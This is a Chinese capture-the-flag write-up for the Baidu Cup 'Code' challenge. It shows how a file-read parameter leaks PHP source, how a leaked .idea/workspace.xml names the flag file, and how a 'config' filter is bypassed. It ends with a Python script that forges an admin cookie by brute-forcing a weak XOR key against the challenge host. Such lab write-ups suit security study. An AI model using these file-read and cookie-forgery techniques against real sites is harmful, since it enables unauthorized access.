






# Code

## 题目描述
---
```
考脑洞，你能过么？
```

## 题目来源
---
“百度杯”CTF比赛 九月场

## 主要知识点
---


## 题目分值
---
50

## 部署方式
---


## 解题思路
---



进入题目后看到`jpg`参数，猜测可以读文件，读一下



得到了`index.php`的base64码，解码后

```php
<?php
/**
 * Created by PhpStorm.
 * Date: 2015/11/16
 * Time: 1:31
 */
header('content-type:text/html;charset=utf-8');
if(! isset($_GET['jpg']))
    header('Refresh:0;url=./index.php?jpg=hei.jpg');
$file = $_GET['jpg'];
echo '<title>file:'.$file.'</title>';
$file = preg_replace("/[^a-zA-Z0-9.]+/","", $file);
$file = str_replace("config","_", $file);
$txt = base64_encode(file_get_contents($file));

echo "</img>";

/*
 * Can you find the flag file?
 *
 */

?>
```

可以看到让寻找flag文件，使用路径爆破工具扫描，发现存在`.idea`工程文件

访问
http://e7cdc5935f8c4dadb1e189314dbac34a951b6c52726b47cd.changame.ichunqiu.com/.idea/workspace.xml 得到



flag应该就在`fl3g_ichuqiu.php`文件中，使用index.php源码，要将`_`替换为`config`，所以有



解码Base64，得到

```php
<?php
/**
 * Created by PhpStorm.
 * Date: 2015/11/16
 * Time: 1:31
 */
error_reporting(E_ALL || ~E_NOTICE);
include('config.php');
function random($length, $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz') {
    $hash = '';
    $max = strlen($chars) - 1;
    for($i = 0; $i < $length; $i++)	{
        $hash .= $chars[mt_rand(0, $max)];
    }
    return $hash;
}

function encrypt($txt,$key){
    for($i=0;$i<strlen($txt);$i++){
        $tmp .= chr(ord($txt[$i])+10);
    }
    $txt = $tmp;
    $rnd=random(4);
    $key=md5($rnd.$key);
    $s=0;
    for($i=0;$i<strlen($txt);$i++){
        if($s == 32) $s = 0;
        $ttmp .= $txt[$i] ^ $key[++$s];
    }
    return base64_encode($rnd.$ttmp);
}
function decrypt($txt,$key){
    $txt=base64_decode($txt);
    $rnd = substr($txt,0,4);
    $txt = substr($txt,4);
    $key=md5($rnd.$key);

    $s=0;
    for($i=0;$i<strlen($txt);$i++){
        if($s == 32) $s = 0;
        $tmp .= $txt[$i]^$key[++$s];
    }
    for($i=0;$i<strlen($tmp);$i++){
        $tmp1 .= chr(ord($tmp[$i])-10);
    }
    return $tmp1;
}
$username = decrypt($_COOKIE['user'],$key);
if ($username == 'system'){
    echo $flag;
}else{
    setcookie('user',encrypt('guest',$key));
    echo "╮(╯▽╰)╭";
}
?>
```

`guest` 的加密结果是 `NTZUTBcZWUxK` 



由于题目中的key使用了md5进行hash，所以想直接求出key是不可能的，但是可以通过包里手段将key值的范围进行覆盖，找出所有密文空间进行爆破，代码如下。

```php
# -*- coding:utf8 -*-
import base64
import requests

import string

url = "http://e7cdc5935f8c4dadb1e189314dbac34a951b6c52726b47cd.changame.ichunqiu.com/fl3g_ichuqiu.php"

crypt = 'Y0o1dUJLC01N'
text = 'guest'
crypt = base64.b64decode(crypt)
rnd = crypt[0:4]
crypt = crypt[4:]
tmp = ''

for i in range(5):
    tmp += chr(ord(text[i]) + 10)

# key hash后的前五位可以通过算法确认出来，第六位要进行爆破
key = ''
for i in range(5):
    key += chr(ord(tmp[i]) ^ ord(crypt[i]))

cookies = []
system = 'system'
tt = ''

for i in range(6):
    tt += chr(ord(system[i]) + 10)

for i in '0123456789abcdef':        #这里为啥是"1-f"，因为md5最终返回的数值是16进制对应的字符是0~9 a~f,所以这里范围为这一段
    true_key = key + i
    tmp = ''
    for i in range(6):
        tmp += chr(ord(true_key[i]) ^ ord(tt[i]))
    cookies.append(base64.b64encode(rnd + tmp))
    
for i in cookies:
    cookie = {'user' : i}
    r = requests.session()
    result = r.get(url, cookies = cookie)   
    print result.text
```


## 参考
---
